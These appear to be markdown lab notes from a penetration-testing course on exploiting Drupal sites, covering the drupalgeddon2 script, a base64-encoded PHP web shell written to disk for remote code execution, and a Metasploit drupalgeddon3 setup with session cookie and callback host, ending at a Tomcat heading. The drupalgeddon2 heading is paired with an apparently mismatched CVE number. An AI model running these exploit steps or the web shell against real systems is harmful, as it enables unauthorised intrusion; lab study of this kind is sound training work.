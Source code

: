 ***Can also use the `exploit/multi/http/drupal_drupalgeddon`* Metasploit module


#### Running `drupalgeddon2.py` (CVE-2014-3704)
```Shell
python3 drupalgeddon2.py
```
Will ask for the URL and will upload a `hello.txt` file

#### Check cURL to ensure `hello.txt` was uploaded
```Shell
curl -s http://drupal-dev.inlanefreight.local/hello.txt
```

#### Modify the script to gain RCE by uploading a malicious PHP file
```Shell
echo  '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
```

#### Replace the `echo` command in the exploit script with a command to write out our malicious PHP script
```Shell
 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

#### Run the modified exploit script to upload our malicious PHP file

#### Confirm remote code execution using cURL


#### Drupalgeddon3

#### Log in and obtain a valid session cookie
![[Pasted image 20230220122215.png]]

#### Set up the exploit module in Metasploit
```Shell
use exploit/multi/http/drupal_drupageddon3
set rhosts 10.129.42.195
set VHOST drupal-acc.inlanefreight.local
set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
set DRUPAL_NODE 1
set LHOST 10.10.14.15
exploit
```


## Tomcat - Discovery & Enumeration

### Discovery
